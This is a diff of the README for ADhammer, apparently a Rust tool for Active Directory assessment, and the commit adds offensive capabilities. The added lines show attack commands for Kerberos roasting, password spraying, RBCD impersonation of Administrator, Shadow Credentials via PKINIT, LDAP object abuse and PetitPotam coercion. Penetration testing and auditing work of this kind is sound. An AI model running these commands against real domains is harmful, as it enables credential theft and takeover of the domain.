

Before and after one commit to icedracon/adhammer, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,47 +1,59 @@
 # ADhammer
 
-Passive Active Directory security assessment in Rust — a PingCastle-class auditor with an
-embedded, from-scratch protocol stack (the "impacket for Rust" that doesn't otherwise exist).
+Active Directory security assessment **and** offensive tradecraft in Rust — a PingCastle-class
+auditor with an embedded, from-scratch protocol stack (the "impacket for Rust" that doesn't
+otherwise exist). Built to run from Kali/Linux against Windows, as a single static binary.
 
-ADhammer collects a domain over LDAP, builds a BloodHound-style control-path graph in
-process, runs 33 checks across the four PingCastle categories, and scores the result. It
-additionally implements Kerberos roasting, GPP/GptTmpl SYSVOL analysis, and a native
-DCE/RPC · NTLM · SMB2 · SAMR stack for enumeration LDAP cannot reproduce.
+ADhammer collects a domain over LDAP, builds a BloodHound-style control-path graph in process,
+runs 33 checks across the four PingCastle categories, and scores the result. On top of the
+passive audit it implements a working offensive stack — Kerberos roasting, password spray,
+LDAP-object abuse, coercion, **RBCD**, and **Shadow Credentials (key-trust PKINIT)** — over a
+native DCE/RPC · NTLM · SMB2 · Kerberos stack written from the wire up.
 
 ```
-adhammer scan  --url ldaps://dc.corp.local:636 --user CORP\\svc --password ... [--sysvol \\corp.local\SYSVOL]
-adhammer attack roast --url ldaps://dc.corp.local:636 --user CORP\\svc --password ... --insecure --kdc dc.corp.local
+# Three commands cover everything:
+#   scan                                            passive audit (checks + control-path graph + SYSVOL)
+#   enum   {samr,lsa}                               read-only RPC enumeration
+#   attack {roast,spray,abuse,coerce,rbcd}          active exploitation
 
-# Three commands cover everything:
-#   scan                  passive audit (checks + control-path graph + SYSVOL)
-#   enum   {samr,lsa}     read-only RPC enumeration
-#   attack {roast,spray,abuse,coerce,rbcd}   active exploitation
+adhammer scan  --url ldaps://dc.corp.local:636 --user CORP\\svc --password ... --insecure [--sysvol \\corp.local\SYSVOL]
+adhammer attack roast  --url ldaps://... --user ... --password ... --insecure --kdc dc.corp.local
+adhammer attack spray  --kdc dc.corp.local --realm CORP.LOCAL --users @users.txt --password 'Winter2025!'
+adhammer attack rbcd   --account ... --account-password ... --realm CORP.LOCAL --kdc ... --impersonate Administrator --target-spn cifs/victim
+
+# Shadow Credentials (two phases, same subcommand):
+adhammer attack abuse --url ldaps://... --user ... --password ... --insecure --action add-keycred --target victim
+adhammer attack abuse --action pkinit --target victim --realm CORP.LOCAL --kdc dc.corp.local   # → victim.ccache
 ```
+
+`attack abuse` also does `add-spn` (targeted Kerberoast), `add-member`, `set-password`, and
+`write-rbcd`. `attack coerce` is PetitPotam / MS-EFSR.
 
 ## Architecture
 
-11 crates in one workspace, layered so the two differentiators — the self-rolled security
-descriptor parser and the in-process control-path graph — sit on shared core types.
+11 crates in one workspace, layered so the two audit differentiators — the self-rolled security
+descriptor parser and the in-process control-path graph — sit on shared core types, and the
+offensive tradecraft sits on the self-rolled RPC/Kerberos stack.
 
 | Crate | Role |
 |-------|------|
 | `core` | Shared model: `Sid`/`Guid`, `AdObject`, `Snapshot`, `Finding`, MITRE table |
-| `sddl` | ⭐ Self-rolled `SECURITY_DESCRIPTOR`/DACL/ACE parser (MS-DTYP) + extended-right GUIDs |
+| `sddl` | ⭐ Self-rolled `SECURITY_DESCRIPTOR`/DACL/ACE parser (MS-DTYP) + RBCD SD builder + extended-right GUIDs |
 | `graph` | ⭐ Control-path graph on `petgraph`; reverse-Dijkstra to Tier-0 |
-| `collector` | LDAP collection (`ldap3`) over the domain + Configuration NC |
+| `collector` | LDAP collection (`ldap3`, rustls) over domain + Configuration NC; SD_FLAGS control; LDAP writes |
 | `checks` | The 33-rule engine across all four categories |
-| `kerberos` | AS-REP roast (no creds) + Kerberoast (TGT → TGS), on `picky-krb` |
+| `kerberos` | AS-REP roast · Kerberoast (RC4+AES) · spray/enum · S4U/RBCD · **Shadow Credentials PKINIT** · ccache — on `picky-krb` |
 | `sysvol` | GPP cpassword recovery (MS14-025) + GptTmpl.inf signing/NTLM/LM policy |
 | `report` | Configurable risk scoring → JSON / HTML |
-| `dcerpc` | NDR marshaling · RPC PDUs · TCP/SMB transports · EPM · SAMR |
-| `ntlm` | NTLMSSP (NTLMv2, key exchange, MIC) |
-| `smb` | Minimal SMB2 client (negotiate → NTLM session → IPC$ → named-pipe RPC) |
+| `dcerpc` | NDR marshaling · RPC PDUs · **NTLMSSP sign+seal** · TCP/SMB transports · EPM · SAMR · LSAT · EFSR |
+| `ntlm` | NTLMSSP (NTLMv2, MIC) + RC4 sign+seal (`SealState`) for RPC packet privacy |
+| `smb` | Minimal SMB2 client (negotiate → NTLMv2 SPNEGO session → IPC$ → named-pipe RPC) |
 
-## Coverage
+## Audit coverage
 
-**Privileged Accounts** — AS-REP/Kerberoast exposure, unconstrained delegation, DCSync
-control paths (graph), sensitive-group membership, gMSA read ACL, SID history, RBCD, LAPS
-coverage, PASSWD_NOTREQD.
+**Privileged Accounts** — AS-REP/Kerberoast exposure, unconstrained delegation, DCSync control
+paths (graph), sensitive-group membership, gMSA read ACL, SID history, RBCD, LAPS coverage,
+PASSWD_NOTREQD.
 
 **Trusts** — SID filtering, selective auth, TGT delegation across forest, RC4, transitivity.
 
@@ -49,9 +61,9 @@ coverage, PASSWD_NOTREQD.
 machine passwords.
 
 **Anomalies** — MachineAccountQuota, krbtgt age, RC4 Kerberos, reversible encryption,
-badSuccessor (dMSA), **AD CS ESC1/2/3/4/9/13**, password policy, anonymous LDAP
-(dSHeuristics), Pre-Windows 2000 Compatible Access, Guest, GPP cpassword, and — from
-SYSVOL GptTmpl.inf — LM/NTLMv1, LDAP/SMB signing, NoLMHash, Netlogon sealing.
+badSuccessor (dMSA), **AD CS ESC1/2/3/4/9/13**, password policy, anonymous LDAP (dSHeuristics),
+Pre-Windows 2000 Compatible Access, Guest, GPP cpassword, and — from SYSVOL GptTmpl.inf —
+LM/NTLMv1, LDAP/SMB signing, NoLMHash, Netlogon sealing.
 
 Every finding carries a MITRE ATT&CK technique (T1558.003 Kerberoasting, T1558.004 AS-REP,
 T1003.006 DCSync, T1649 cert abuse, T1484 policy/trust modification, …).
````
Also changed, not shown: other parts of README.md (+35 -17 lines).
